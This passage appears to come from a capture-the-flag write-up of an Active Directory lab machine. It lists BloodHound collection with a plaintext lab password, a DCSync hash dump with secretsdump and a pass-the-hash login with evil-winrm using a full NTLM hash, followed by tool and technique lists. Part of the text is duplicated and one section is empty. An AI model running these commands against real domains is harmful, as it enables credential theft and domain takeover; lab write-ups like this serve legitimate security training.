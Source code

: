 `bloodhound-python -u svc_loanmgr -p Moneymakestheworldgoround! -d EGOTISTICAL-BANK.LOCAL -ns 10.129.95.180 -c All --zip`

- Collects Active Directory information remotely for visualization of attack paths with BloodHound.

---

## DCSync & Domain Admin Compromise

- **Dump domain admin hash with secretsdump:**

`impacket-secretsdump egotistical-bank/svc_loanmgr@10.129.95.180 -just-dc-user Administrator`

- Uses DCSync privileges of svc_loanmgr to extract NTLM hashes of the domain administrator.

- **Pass the Hash attack to get SYSTEM shell:**

`
- Uses DCSync privileges of svc_loanmgr to extract NTLM hashes of the domain administrator.

- **Pass the Hash attack to get SYSTEM shell:**

`evil-winrm -i 10.129.95.180 -u administrator -p 'aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e'`

- Connects to the machine remotely as SYSTEM using the stolen hash credentials.

---

## 11. Stepwise PoC

<details><summary>💻<strong>(click to expand)</strong> </summary></details>

---

## Tools Used

- **windapsearch.py:** LDAP enumeration and Active Directory user/group discovery.
- **impacket-GetADUsers:** User enumeration via LDAP protocol.
- **username-anarchy:** Username permutation generator for penetration testing.
- **impacket-GetNPUsers:** AS-REP Roasting attack tool to extract Kerberos hashes.
- **winPEAS.exe:** Windows privilege escalation enumeration tool.
- **secretsdump:** Dumps sensitive secrets from domain controllers using DCSync.
- **evil-winrm:** Tool for Windows Remote Management shell access.
- **bloodhound-python:** Active Directory attack path data collector.
- **hashcat:** Hash cracking tool for offline brute-force attacks.

---

## Techniques

- **ASREPRoasting:** Extraction and cracking of AS-REP Kerberos hashes for users without preauthentication enabled.
- **DCSync:** Abuse of replication rights to dump password hashes from domain controller’s NTDS.dit file.
- **Pass The Hash:** Using extracted NTLM hashes to authenticate and gain system-level access without cracking.

---


